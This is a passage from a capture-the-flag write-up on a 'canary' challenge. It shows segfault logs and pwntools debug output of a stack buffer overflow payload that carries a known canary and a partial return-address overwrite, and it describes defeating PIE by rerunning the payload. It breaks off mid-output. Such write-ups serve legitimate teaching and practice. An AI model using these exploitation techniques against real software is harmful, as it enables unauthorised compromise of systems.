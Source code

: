 ```bash
vuln[13996]: segfault at 61616165 ip 0000000061616165 sp 00000000ffac0110 error 14 in libc-2.30.so[f7d3c000+1d000]
Code: Bad RIP value.
```
Then modify my exploit and test it.
```bash
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 15367
[DEBUG] Received 0x28 bytes:
    'Please enter the length of the entry:\n'
    '> '
[DEBUG] Sent 0x3 bytes:
    '56\n'
[DEBUG] Received 0x7 bytes:
    'Input> '
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  4a 41 43 4b  41 41 41 41  41 41 41 41  41 41 41 41  │JACK│AAAA│AAAA│AAAA│
    00000030  41 41 41 41  ed 07 00 00  0a                        │AAAA│····│·│
    00000039
[DEBUG] Received 0x1c bytes:
    "Ok... Now Where's the Flag?\n"
Ok... Now Where's the Flag?

[*] Stopped process '/home/kali/Desktop/pctf/canary/vuln' (pid 15367)
```
Aaand it didn't work. The program is actually segfaulting, even though it is being given what I think is the right address in the right location. This is actually due to Position Independant Code (PIE) being enabled which means the function is not always at the right position in the address space. However this can be beaten by just repeatedly running the payload again and again until the function gets hit.

```bash
kali@kali:~/Desktop/pctf/canary$ python solve.py 
[*] '/home/kali/Desktop/pctf/canary/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
Payload: 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
*
00000020  4a 41 43 4b  42 42 42 42  42 42 42 42  42 42 42 42  │JACK│BBBB│BBBB│BBBB│
00000030  42 42 42 42  ed 07                                  │BBBB│··│
00000036
Size: 54
[*] Canary value: JACK
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35024
[+] Receiving all data: Done (28B)
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code -11 (SIGSEGV) (pid 35024)
Ok... Now Where's the Flag?

[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35027
[+] Receiving all data: Done (28B)
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code -11 (SIGSEGV) (pid 35027)
Ok... Now Where's the Flag?

[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35036
[+] Receiving all data: Done (28B)
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code -11 (SIGSEGV) (pid 35036)
Ok... Now Where's the Flag?

[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35039
[+] Receiving all data: Done (28B)
```